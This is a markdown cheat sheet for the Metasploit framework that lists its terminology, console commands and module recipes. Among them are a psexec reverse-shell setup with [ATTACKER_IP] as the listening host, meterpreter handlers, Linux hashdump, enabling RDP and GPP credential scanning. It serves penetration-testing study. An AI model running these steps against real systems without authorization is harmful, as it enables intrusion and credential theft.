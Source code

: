 ```yaml
---
title: METASPLOIT
summary: A penetration testing framework.
description: A penetration testing framework.
---
```


**[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)**

## Terminology

### Non-Staged Payload

**Non-staged (Singles or Inline) payload are sent all at once.**

Example: windows/meterpreter_reverse_tcp.

### Staged Payload

**Staged payloads are sent in two steps:** an initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.

Example: windows/meterpreter/reverse_tcp.

### Modules

* **Exploits:** Exploits.
* **Payloads:** Payloads (exploit + goal).
  * **Singles:** Self-contained payloads that do not need to download an additional component to run.
  * **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. 
  * **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.
* **Evasion:** Try to bypass antivirus. 
* **Auxiliary:** Supporting modules such as scanners, crawlers and fuzzers.
* **Post:** Post exploitation.

### Exploit Ranking

![tool-metasploit-terminology-exploit_ranking.png](../../attachments/tool-metasploit-terminology-exploit_ranking.png)

Source: https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html

## Console


 > 
 > **<font color=red>msfdb init</font>**</br>
 > Initialize database.
 > 
 > **<font color=red>msfconsole</font>**</br>
 > Start metasploit console.
 > 
 > **<font color=red>db_status</font>**</br>
 > Check database connection.

 > 
 > **<font color=red>search </font>\[SERVICE_TO_EXPLOIT\]**</br>
 > Search for an exploit to use against the specified service.
 > 
 > **<font color=red>use</font> \[MODULE\]**</br>
 > Select a module.
 > 
 > **<font color=red>use auxiliary</font>**</br>
 > Select an auxiliary module. 

 > 
 > **<font color=red>info</font>**</br>
 > Display information about selected module.
 > 
 > **<font color=red>show options</font>**</br>
 > Show variables (options) of selected module.

 > 
 > **<font color=red>set</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) of selected module.
 > 
 > **<font color=red>setg</font> \[VARIABLE\] \[VALUE\]**</br>
 > Set variable (option) globaly (for all modules).
 > 
 > **<font color=red>unset</font> \[VARIABLE\] \[VALUE\]**</br>
 > Unset variable.

 > 
 > **<font color=red>exploit</font>**</br>
 > Run the exploit (**<font color=red>-j</font>** to run it in background job). **run** is an alias to exploit.

 > 
 > **<font color=red>sessions -l</font>**</br>
 > List opened sessions.
 > 
 > **<font color=red>sessions</font> 1**</br>
 > Open session 1.
 > 
 > **<font color=red>background</font>**</br>
 > Background session (Ctrl + z).

 > 
 > **<font color=red>connect</font> \[HOST\]**</br>
 > Netcat like connection.
 > 
 > **<font color=red>spool</font>**</br>
 > Write console output into a file as well the screen.

## Modules

### Handler Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> windows/x64/meterpreter/reverse_tcp**</br>
 > Handler for Windows Meterpreter.

### Reverse Shell Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**</br>
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**</br>
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**</br>
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**</br>
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**</br>
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

### Post Exploit Multi


 > 
 > **<font color=red>use</font> <font color=lightblue>multi/manage/shell_to_meterpreter</font>**</br>
 > Upgrade shell to a Meterpreter session.


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

### Post Exploit Windows


 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/checkvm</font>**</br>
 > Check if the machine a VM.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/manage/enable_rdp</font>**</br>
 > Try to enable RDP.

 > 
 > **<font color=red>use</font> <font color=lightblue>post/windows/gather/enum_shares</font>**</br>
 > Enumerate shares.

### Post Exploit Linux


 > 
 > **<font color=red>use</font> <font color=lightblue>linux/gather/hashdump</font>**</br>
 > Dump users hashes.

### Auxiliary SMB


 > 
 > **<font color=red>use</font> <font color=lightblue>auxiliary/scanner/smb/smb_enum_gpp</font>**</br>
 > Detect vulnerable GPP policies (credentials encrypted with leaked key).
